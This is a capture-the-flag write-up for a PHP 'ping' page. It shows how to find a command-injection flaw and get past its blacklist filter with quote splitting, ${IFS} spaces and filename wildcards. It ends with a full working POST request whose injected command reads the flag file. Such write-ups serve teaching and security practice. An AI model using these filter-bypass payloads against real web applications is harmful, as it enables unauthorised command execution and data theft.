 ```yaml
---
title: "Bing2"
date: "2024-07-27"
draft: false
---
```

Type: #WEB #whitebox 
Difficulty: #easy 
SOLVED by: #myself 
TOOL USED: #burp 
TOPIC: #command_injection

---

Writeup Date:2024-07-27
URL = https://00b46582d765094ac90bb4db.deadsec.quest/bing.php

---------

the challenge description 
source code was provide through [link](https://drive.proton.me/urls/JFNPCV77V4#dLqn62g51E4N)on discord
first let's see the website 
![[Pasted_image_20240727040922.png]](/screenshots/Pasted_image_20240727040922.png)
i clicked on CTRL-U to see sourcecode of the page
![[Pasted_image_20240727041135.png]](/screenshots/Pasted_image_20240727041135.png)
no functionality was found so i looked at the sourcecode provided  
![[Pasted_image_20240727041628.png]](/screenshots/Pasted_image_20240727041628.png)
found dockers file and fake lag to run the challenge locally
---
but the interesting thing we found bing.php file so we don't have to brute force files/directory on the instance 


## bing.php
---
upon inspecting bing.php
we found if statement that require parameter "Submit" to be set and if so it checks another parameter (ip) and remove any white space in it
and the substitutions array
![[Pasted_image_20240727043626.png]](/screenshots/Pasted_image_20240727043626.png)
![[Pasted_image_20240727043854.png]](/screenshots/Pasted_image_20240727043854.png)
so it replace arraykeys with arrayvalue in the target we set (ip paramater) and then pass it to shell_exec to ping it
if we can add to the ping command another command we will get RCE and can read the flag

### TO DO LIST
- first we need to create POST request to bing.php and pass 2 parameters Submit (first letter must be as challenge stated in this case capital ) and ip (website to ping it and BTW the macine has no connection to the internet so you will have to ping localhost)
- we will need to bypass the filter somehow to inject command that's allow us to read the flag
---


using burbsuite we will intercept request to /bing.php
so our initial request look like this 
![[Pasted_image_20240727045006.png]](/screenshots/Pasted_image_20240727045006.png) 
we will make a lot of changes and tries/errors
so send the request to the Reapter CTRL-R
and change method to POST Instate OF GET
and add our Submit and ip paramters
![[Pasted_image_20240727045941.png]](/screenshots/Pasted_image_20240727045941.png)
### bypass the filter

as we can see a lot of command and command operators eg 
`| & ; || && () % ~ <> / \ - 
are gonna be replaced with nothing
and trim in php will remove any white space
but there is mistake in the implementations 
![[Pasted_image_20240727051035.png]](/screenshots/Pasted_image_20240727051035.png)
spotted ? 
if not yet the code will look `;+space` not just `;`
so if we append the command without anyspace in between it should work fine but a lot of commands are banned 
but there is mistake in the implementations too 
`;ls` ==> wont work because "ls" is banned 
`;l''s` ==> will work because `''` in  bash gonna eval to empty string and ls gonna be concatenated you can also do it with `""`
![[Pasted_image_20240727052524.png]](/screenshots/Pasted_image_20240727052524.png)
great now we can use `ca''t /flag.txt` to get flag right ?
WRONG 
for two reasons
1. you put space between cat and /flag it will get removed and error 
2. you typed "flag" which also banned in the array
we will resolve the first issue by replacing every space we wanna type with special variable in bash called IFS 
anytime you want SPACE type ${IFS}
second flag is banned but we can type fl??.txt or \*.txt

Bash shell supports three wildcards, one of which is the question mark (?). You use wildcards to replace characters in filename templates. A filename that contains a wildcard forms a template that matches a range of filenames, rather than just one.
for REFERENCE check this [article](https://www.howtogeek.com/439199/15-special-characters-you-need-to-know-for-bash) 

so final request gonna look like this 
```bash
POST /bing.php HTTP/2
Host: 00b46582d765094ac90bb4db.deadsec.quest
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua: "Google Chrome";v="112", "Chromium";v="112", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 63

Submit=anyValueWillEvaluteToTrue&ip=127.0.0.1;ca''t${IFS}/fl?g.txt


```

![[Pasted_image_20240727060621.png]](/screenshots/Pasted_image_20240727060621.png)
> Science investigates; religion interprets. Science gives man knowledge which is power; religion gives man wisdom which is control.
> — <cite>Martin Luther King Jr.</cite>
